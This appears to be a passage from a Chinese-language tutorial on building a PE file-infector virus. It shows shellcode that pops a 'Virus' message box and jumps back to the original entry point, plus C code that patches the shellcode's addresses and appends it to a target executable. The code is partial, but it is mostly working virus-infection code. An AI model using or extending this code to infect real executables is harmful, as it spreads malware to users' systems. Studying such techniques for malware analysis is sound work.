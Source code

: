 ```C
			mov     eax, 0xAAAAAAAA
			call      eax                            // MessageBoxA

			popad
			push    0xBBBBBBBB                       // OEP
			ret

	szCaption :
			db('V') db('i') db('r') db('u') db('s') db(0)
	szText :
			db('I') db('n') db('f') db('l') db('e') db('c') db('t') db(' ') db('s')
			db('u') db('c') db('c') db('e') db('s') db('s') db(' ') db('!') db(0)
	}
}
```
从以上代码可知，Shellcode 执行完后会 ret 到原入口地址（OEP）处继续执行。Shellcode 中 MessageBoxA 函数的地址和 OEP 只是占位符，需要在运行时修正这两个地址。

大多数程序都会加载 user32.dll， 并且在同一系统中，user32.dll 会被加载到自身固有的 ImageBase，而 MessageBoxA 是该动态链接库的一个导出函数，所以同一系统中运行的所有进程的 MessageBoxA 函数地址是相同的。
```C
BOOL InfectFile(TCHAR *fpath)
{
	...
	//动态获取 MessageBoxA 函数地址
	HMODULE hModule = LoadLibraryA("user32.dll");
	LPVOID lpAddress = GetProcAddress(hModule, "MessageBoxA");

	//修改 shellcode 中 MessabeBoxA 和 OEP 的地址
	HANDLE hHeap = HeapCreate(NULL,NULL,dwCodeSize);
	LPVOID lpHeap = HeapAlloc(hHeap,HEAP_ZERO_MEMORY,dwCodeSize);
	memcpy(lpHeap,ShellcodeStart,dwCodeSize);

	DWORD dwIncrementor = 0;
	for(;dwIncrementor < dwCodeSize; dwIncrementor++){
		//修改 MessageBoxA 地址
		if(*((LPDWORD)lpHeap + dwIncrementor) == 0xAAAAAAAA){
			*((LPDWORD)lpHeap +dwIncrementor) = (DWORD)lpAddress;
		}
		//修改原 OEP 地址
		if(*((LPDWORD)lpHeap + dwIncrementor) == 0xBBBBBBBB){
			*((LPDWORD)lpHeap +dwIncrementor) = dwOldOEP;
			FreeLibrary(hModule);
			break;
		}
	}

	//复制shellcode到新节区
	DWORD dwSize = 0;
	SetFilePointer(hFile,NULL,NULL,FILE_END);
	WriteFile(hFile,lpHeap,pNewSec->SizeOfRawData,&dwSize,NULL);
	HeapFree(hHeap,NULL,lpHeap);
	HeapDestroy(hHeap);
}
```
修正 Shellcode 中地址之后将其复制到 PE 文件的末尾，首先使用 SetFilePointer() 函数将文件指针指向文件末尾，再通过 WriteFile() 函数将 Shellcode 函数写入文件。SetFilePointer() 函数定义如下：
```C
DWORD WINAPI SetFilePointer(
	HANDLE hFile, //A handle to the file
 	LONG   lDistanceToMove,
 	PLONG  lpDistanceToMoveHigh,
 	DWORD  dwMoveMethod //The starting point for the file pointer move
);
```